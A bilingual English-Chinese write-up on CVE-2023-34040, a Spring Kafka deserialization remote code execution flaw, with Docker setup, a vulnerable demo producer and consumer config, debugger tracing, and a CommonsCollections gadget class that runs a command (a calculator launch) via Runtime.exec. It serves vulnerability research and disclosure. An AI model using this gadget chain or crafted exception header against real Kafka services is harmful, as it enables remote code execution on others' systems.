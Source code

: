 
# CVE-2023-34040 Spring Kafka Deserialization Remote Code Execution

by pyn3rd

2023-09-15 (Updated: 2023-10-18)

##### [](#0x01-Preface "0x01 Preface")0x01 Preface 0x01 前言

Here is the explicit description about Spring Kafka deserialization vulnerability in Vmware security bulletin.  
以下是 Vmware 安全公告中有关 Spring Kafka 反序列化漏洞的明确描述。

![upload successful](assets/1699429152-e01d739cffd138c6f8cc285fd4461aa0.png)

Reference 参考

[https://spring.io/security/cve-2023-34040](https://spring.io/security/cve-2023-34040)

According to the description in security bulletin, we can simply attain some critical points resulting in the vulnerability.  
根据安全公告中的描述，我们可以简单地达到一些导致漏洞的关键点。

1.  Setting the `ErrorHandlingDeserializer` as a key and/or value in the Kafka record in configuration.  
    在配置中将 `ErrorHandlingDeserializer` 设置为 Kafka 记录中的键和/或值。
    
2.  Setting the boolean type properties `checkDeserExWhenKeyNull` and/or `checkDeserExWhenValueNull` to **true**.  
    将布尔类型属性 `checkDeserExWhenKeyNull` 和/或 `checkDeserExWhenValueNull` 设置为 true。
    
3.  The users can publish a Kafka topic without any verification.  
    用户无需任何验证即可发布 Kafka 主题。
    

##### [](#0x02-Concepts-of-Kafka "0x02 Concepts of Kafka")0x02 Concepts of Kafka Kafka 的 0x02 概念

Before deeply diving into the vulnerability, we promptly review some relevant concepts of the Kafka service.  
在深入研究漏洞之前，我们及时回顾了 Kafka 服务的一些相关概念。

![img](assets/1699429152-c987482c3ec4a543875c3b25b99f5788.jpg)

-   Producer：we call the object for publishing record **Kafka topic producer**  
    Producer：我们调用发布记录的对象 Kafka 主题 producer
    
-   Topic：The records are classified by the Kafka service, and each classification is named **Topic**.  
    Topic：记录按 Kafka 服务进行分类，每个分类都命名为 Topic。
    

-   Broker：The published messages are stored in a group of servers, we call it Kafka cluster. Each of the server is a **Broker**. The consumer can attain the data form **Broker** and consume more than one topic.  
    Broker：发布的消息存储在一组服务器中，我们称之为 Kafka 集群。每个服务器都是一个 Broker。消费者可以从 Broker 获取数据，并使用多个主题。

-   Consumer：The object which is used to subscribe message and handle with the published message is called **Kafka topi consumer**. The consumption messages are topic based.  
    Consumer：用于订阅消息并处理已发布消息的对象称为 Kafka topi consumer。消费消息是基于主题的。

Moreover,it is necessary to review the structure of Kafka record.  
此外，有必要对 Kafka 记录的结构进行回顾。

![upload successful](assets/1699429152-3b33d3be81ab4adf6d9e2e4d4becc1c1.png)

Kafka Record, we also call it **Message** or **Event** consisting of **Header** and **Body**. The header data virtually equals to **Metadata** including the basic elements like Topic, Patition and Timestamp. They are stored as a pair of key/value. The body data usually are the relevant business data stored as key/value constructure as well.  
Kafka Record，我们也称它为 Message 或 Event，由 Header 和 Body 组成。标头数据实际上等于元数据，包括 Topic、Patition 和 Timestamp 等基本元素。它们存储为一对键/值。正文数据通常也是存储为键/值结构的相关业务数据。

##### [](#Preparation "Preparation")Preparation 制备

Zookeeper server is required before deploying Kafka service.  
在部署 Kafka 服务之前，需要 Zookeeper 服务器。

1.Installing Zookeeper server by docker  
1.通过 docker 安装 Zookeeper 服务器

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```plain<br>docker run -d --name zookeeper -p 2181:2181 -t zookeeper:latest<br>``` |

2.Deploying Kafka server by docker  
2.通过 docker 部署 Kafka 服务器

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```plain<br>docker run  -d --name kafka -p 9092:9092 \<br>-e KAFKA_ZOOKEEPER_CONNECT=192.168.5.102:2181 \<br>-e KAFKA_ADVERTISED_LISTENERS=PLAINTEXT://192.168.5.102:9092 \<br>-e KAFKA_LISTENERS=PLAINTEXT://0.0.0.0:9092 \<br>-e TZ="Asia/Shanghai" \<br>wurstmeister/kafka:latest<br>``` |

3.Spring Boot project imports the affected Kafka dependencies  
3.Spring Boot 项目导入受影响的 Kafka 依赖

Affected version： 受影响的版本：

-   2.8.1 to 2.9.10 2.8.1 到 2.9.10
-   3.0.0 to 3.0.9 3.0.0 到 3.0.9

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```plain<br><dependency><br>        <groupId>org.springframework.kafka</groupId><br>        <artifactId>spring-kafka</artifactId><br>        <version>2.8.11</version><br>    </dependency><br>``` |

4.Updating the configuration in `application.yaml`  
4.更新配置 `application.yaml`

![upload successful](assets/1699429152-74426f707baf05dac8a0f23882952004.png)

5.Classes for demonstration  
5.示范类

1）Kafka Producer Class 1）Kafka 生产者类

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>``` | ```plain<br>package com.example.SpringKafkaDemo.producer;<br><br>import com.example.SpringKafkaDemo.model.KafkaMessage;<br>import org.apache.kafka.clients.producer.ProducerRecord;<br>import org.springframework.beans.factory.annotation.Autowired;<br>import org.springframework.kafka.core.KafkaTemplate;<br>import org.springframework.web.bind.annotation.*;<br><br>import java.util.HashMap;<br><br>@RestController<br>public class KafkaProducer {<br><br>    @Autowired<br>    private KafkaTemplate<String, String> kafkaTemplate;<br><br>    @PostMapping("/message/send")<br>    public String sendMessage(@RequestBody KafkaMessage message) {<br><br>        String topic = message.getTopic();<br>        String data  = message.getData();<br><br>       HashMap<String, String> headers = message.getHeaders();<br><br><br>        ProducerRecord<String, String> producerRecord = new ProducerRecord<>(topic, data);<br>        for (String s : headers.keySet()) {<br>            if (s.equals("springDeserializerExceptionKey")) {<br>                String exceptData = headers.get(s);<br>                byte[] exceptHandler = KafkaProducer.hexStringtoBytes(exceptData);<br>                producerRecord.headers().add(s, exceptHandler);<br>                continue;<br>            }<br><br>            producerRecord.headers().add(s, headers.get(s).getBytes());<br>        }<br>        kafkaTemplate.send(producerRecord);<br>        String jsonString="{\"code\":\"200\", \"status\":\"success\"}";<br><br>        return jsonString;<br>    }<br><br><br>    private static byte[] hexStringtoBytes(String hexString) {<br><br>        byte[] excepetionMessage = new byte[hexString.length() / 2];<br>        for (int i = 0; i < excepetionMessage.length; i++) {<br>            excepetionMessage[i] = (byte) Integer.parseInt(hexString.substring(i * 2, i * 2 + 2), 16);<br><br>        }<br>        return excepetionMessage;<br>    }<br>}<br>``` |

By the way, here we use a type of design pattern in Java Language, **Template Method Pattern**. In this demonstration, I insert a template named `kafkaTemplate`.  
顺便说一句，这里我们使用 Java 语言中的一种设计模式，即模板方法模式。在本演示中，我插入了一个名为 `kafkaTemplate` .

Highlight of the code fragment  
代码片段的突出显示

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```plain<br>private KafkaTemplate<String, String> kafkaTemplate;<br>``` |

2）Kafka Consumer Class 2）Kafka 消费类

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>``` | ```plain<br>package com.example.SpringKafkaDemo.consumer;<br><br>import org.springframework.kafka.annotation.KafkaListener;<br>import org.springframework.stereotype.Service;<br><br>@Service<br>public class KafkaConsumer {<br><br>    @KafkaListener(topics = "my-topic", groupId = "my-group-id")<br>    public void consume(String message) {<br>        System.out.println("Received message: " + message);<br>    }<br><br>}<br>``` |

3）Config Class for the Consumer  
3）消费者的配置类

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>``` | ```plain<br>package com.example.SpringKafkaDemo.config;<br><br>import org.apache.kafka.clients.consumer.ConsumerConfig;<br>import org.springframework.beans.factory.annotation.Value;<br>import org.springframework.context.annotation.Bean;<br>import org.springframework.context.annotation.Configuration;<br>import org.springframework.kafka.annotation.EnableKafka;<br>import org.springframework.kafka.config.ConcurrentKafkaListenerContainerFactory;<br>import org.springframework.kafka.core.ConsumerFactory;<br>import org.springframework.kafka.core.DefaultKafkaConsumerFactory;<br>import org.springframework.kafka.support.serializer.JsonDeserializer;<br><br>import java.util.HashMap;<br>import java.util.Map;<br><br>@Configuration<br>@EnableKafka<br>public class KafkaConsumerConfig {<br><br>    @Value("${spring.kafka.bootstrap-servers}")<br>    private String bootstrapServers;<br><br>    @Value("${spring.kafka.consumer.group-id}")<br>    private String groupId;<br><br>    @Bean<br>    public Map<String, Object> consumerConfigs() {<br>        Map<String, Object> props = new HashMap<>();<br>        props.put(ConsumerConfig.BOOTSTRAP_SERVERS_CONFIG, bootstrapServers);<br>        props.put(ConsumerConfig.GROUP_ID_CONFIG, groupId);<br>        props.put(ConsumerConfig.AUTO_OFFSET_RESET_CONFIG, "earliest");<br>        props.put(ConsumerConfig.KEY_DESERIALIZER_CLASS_CONFIG, JsonDeserializer.class);<br>        props.put(ConsumerConfig.VALUE_DESERIALIZER_CLASS_CONFIG, JsonDeserializer.class);<br>        return props;<br>    }<br><br>    @Bean<br>    public ConsumerFactory<String, String> consumerFactory() {<br>        return new DefaultKafkaConsumerFactory<>(consumerConfigs());<br>    }<br><br>    @Bean<br>    public ConcurrentKafkaListenerContainerFactory<String, String> kafkaListenerContainerFactory() {<br>        ConcurrentKafkaListenerContainerFactory<String, String> factory = new ConcurrentKafkaListenerContainerFactory<>();<br>        factory.setConsumerFactory(consumerFactory());<br>        factory.getContainerProperties().setCheckDeserExWhenKeyNull(true);<br>        factory.getContainerProperties().setCheckDeserExWhenValueNull(true);<br>        return factory;<br>    }<br>}<br>``` |

In acordance with the vulnerablity description in official bulletin, we should set both the `checkDeserExWhenKeyNull` and `checkDeserExWhenValueNull` properties to **true**.  
根据官方公告中的漏洞描述，我们应该将 `checkDeserExWhenKeyNull` 和 `checkDeserExWhenValueNull` 属性都设置为 true。

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>``` | ```plain<br>factory.getContainerProperties().setCheckDeserExWhenKeyNull(true)<br>factory.getContainerProperties().setCheckDeserExWhenValueNull(true)<br>``` |

Se the breakpoint at the `getExceptionFromHeader` function and then have the server start.  
在 `getExceptionFromHeader` 函数处找到断点，然后启动服务器。

![upload successful](assets/1699429152-f628f57fe1aba9e01f33d13a552de473.png)

Step into `invokeIfHaveRecords` function, the record object will be deserialized.  
单步执行 `invokeIfHaveRecords` 函数时，记录对象将被反序列化。

![upload successful](assets/1699429152-aa2c7f3899f0bd373a5f79d71c781ddf.png)

![upload successful](assets/1699429152-08a9bd1a8060e44340b3a2e58a1b2b97.png)

Back to the `getExceptionFromHeader` function.  
回到函数。 `getExceptionFromHeader`

![upload successful](assets/1699429152-820bdce111f3b0e83325b0b13104c5a4.png)

This function makes the value `springDeserializerExceptionKey` of `record.headers()` into the the value of the variables `headerName` and be delivered `header`.  
这个函数使 的值 `record.headers()` 变成变量 `headerName` 的值 `springDeserializerExceptionKey` 并被传递 `header` 。

And then deliver the value to `byteArrayToDeserializationException` function.  
然后将价值交付给 `byteArrayToDeserializationException` 功能。

![upload successful](assets/1699429152-73a4c84798e95d6ba399bb728a1c7445.png)

Step into `byteArrayToDeserializationException` function.  
单步执行 `byteArrayToDeserializationException` 函数。

![upload successful](assets/1699429152-fb95d2146ca99e488a747630433fd226.png)

The `resolveClass` function is overrided to restrain arbitrary Java class deserialization. Actually, we can find the way of preventing Java deserialization vulnerability in many projects, like Apache Shiro, Fastjson.  
重写该 `resolveClass` 函数以限制任意 Java 类反序列化。实际上，我们可以在很多项目中找到防止 Java 反序列化漏洞的方法，比如 Apache Shiro、Fastjson。

![upload successful](assets/1699429152-68683de7b64aabc60a5d2d295aabf88b.png)

Apparently, only the class  
显然，只有类  
`org.springframework.kafka.support.serializer.DeserializationException` can be deserialized.  
`org.springframework.kafka.support.serializer.DeserializationException` 可以反序列化。

![upload successful](assets/1699429152-c069cf3e5e81f1cc2cabfbd85ebc085c.png)

Step into `DeserializationException` function, it consists four arguments. One of them is `cause` which is used to invoke instantial class.  
单步执行 `DeserializationException` 函数，它由四个参数组成。其中之一是 `cause` 用于调用瞬时类。

![upload successful](assets/1699429152-941608e846deeb63d3ceeb49046cba4a.png)

Write a malicious class and make it inherit the parent class `Throwable`.  
编写一个恶意类并使其继承父类 `Throwable` 。

![upload successful](assets/1699429152-24638834647be24ca06440835f228050.png)

Eventually, fill the value of the `springDeserializerExceptionKey` key in JSON data with the generated Java serialization. The remote code execution is trigged after sending the HTTP request.  
最后，使用生成的 Java 序列化填充 JSON 数据中 `springDeserializerExceptionKey` 键的值。发送 HTTP 请求后，将触发远程代码执行。

![upload successful](assets/1699429152-d66ea4de0295d44366afb8701980b789.png)

In addition, we could exploit `CommonsCollections` gadget as well. Thus, the malicious class could be constructed as follow.  
此外，我们还可以利用 `CommonsCollections` 小工具。因此，恶意类可以构造如下。

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>``` | ```plain<br>package org.example.deserialization;<br><br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.TransformedMap;<br><br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class CustomExceptionClass extends Throwable {<br><br>    // CommonCollection6 Gadget in Static Code Block<br><br>    static {<br>        Transformer[] transformers=new Transformer[]{<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod",<br>                        new Class[]{String.class, Class[].class},<br>                        new Object[]{"getRuntime", new Class[0]}),<br>                new InvokerTransformer("invoke",<br>                        new Class[]{Object.class, Object[].class},<br>                        new Object[]{null, new Object[0]}),<br>                new InvokerTransformer("exec",<br>                        new Class[]{String.class},<br>                        new Object[]{"open -a calculator"})<br>        };<br><br>        Map<String, String> innerMap= new HashMap<>();<br>        innerMap.put("key","value");<br><br>        Map<String, String> outerMap = TransformedMap.decorate(<br>                innerMap,<br>                null,<br>                new ChainedTransformer(transformers));<br><br>        outerMap.put("topic", "test");<br><br>    }<br>}<br>``` |

##### [](#Proof-of-Content "Proof of Content")Proof of Content 内容证明

[https://github.com/pyn3rd/CVE-2023-34040](https://github.com/pyn3rd/CVE-2023-34040)
